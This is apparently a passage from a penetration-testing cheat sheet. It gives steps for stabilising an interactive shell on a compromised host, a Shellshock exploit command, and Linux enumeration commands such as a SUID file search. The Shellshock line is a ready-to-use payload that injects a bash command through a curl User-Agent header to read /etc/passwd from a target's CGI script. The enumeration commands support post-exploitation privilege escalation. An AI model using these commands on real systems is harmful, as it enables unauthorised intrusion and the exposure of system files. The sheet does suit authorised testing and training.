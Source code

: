 ### Adjust Interactive shell

```
stty size # Find your terminal size -> 50 235
Ctrl-Z
stty raw -echo  // Disable shell echo
fg
export SHELL=bash
export TERM=xterm OR export TERM=xterm-256color
stty rows 50 columns 235
```

------

## SHELLSHOCK

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" <URL>/cgi-bin/<SCRIPT>
```

------

## USEFUL LINUX COMMANDS

### Find a file

```
locate <FILE>
find / -name "<FILE>"
```

### Active connection

```
netstat -lntp
```

### List all SUID files

```
find / -perm -4000 2>/dev/null
```

### Determine the current version of Linux

```
 cat /etc/issue
```

### Determine more information about the environment

```
uname -a
```
